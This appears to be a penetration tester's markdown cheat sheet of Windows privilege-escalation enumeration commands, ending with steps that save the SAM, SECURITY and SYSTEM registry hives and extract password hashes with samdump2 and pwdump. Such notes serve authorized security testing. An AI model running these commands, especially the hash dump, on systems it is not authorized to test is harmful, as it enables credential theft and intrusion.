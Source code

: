 #### tasklist run by current user
-----
```tasklist -v```


#### accesschk
-----
*https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account?redirectedfrom=MSDN*

```accesschk.exe /accepteula -qwcu "Authenticated Users" *```


#### firewall
-----
```netsh firewall show state```

```netsh firewall show config```


#### privs
-----
```whoami /priv```


#### scheduled tasks
-----
```schtasks /query /fo list /v```


#### file privs
-----
```dir file.txt /s /p```

```icacls "c:\program files\whatever"```


#### wmic
-----
```wmic useraccount get name,sid```

```cmd /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:windows\" |findstr /i /v """'```


#### SAM dump
-----
*SAM file: C:\Windows\system32\config*

*backup SAM reg key*

```reg save hklm\sam sam.save```

*backup security reg key*

```reg save hklm\security security.save```

*backup system reg key*

```reg save hklm\system system.save```

*On attacking machine:*

```samdump2 system.save sam.save```

```pwdump system.save sam.save```


